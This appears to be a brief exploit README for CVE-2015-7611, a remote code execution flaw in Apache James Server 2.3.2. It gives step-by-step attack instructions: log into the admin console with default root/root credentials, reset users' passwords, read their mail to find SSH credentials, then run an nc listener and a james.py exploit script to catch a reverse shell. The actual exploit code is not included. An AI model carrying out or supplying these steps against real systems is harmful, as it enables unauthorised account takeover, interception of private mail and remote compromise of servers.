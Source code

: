 # CVE-2015-7611 Apache James Server 2.3.2 RCE  

## Summary

Apache James Server 2.3.2, when configured with file-based user repositories, allows attackers to execute arbitrary system commands via unspecified vectors. 

You need to have access to JAMES admin interface by telnet to port 4555 default credentials is 'root/root'

reset users password with setpassword <username> <password>

telnet port 110 and read users mail with the new password. Try to find any ssh credentials by read mail.

```
nc -lnvp 4444
./james.py ip
ssh <credentials>@server
```

You should now get a connection back to your listener.
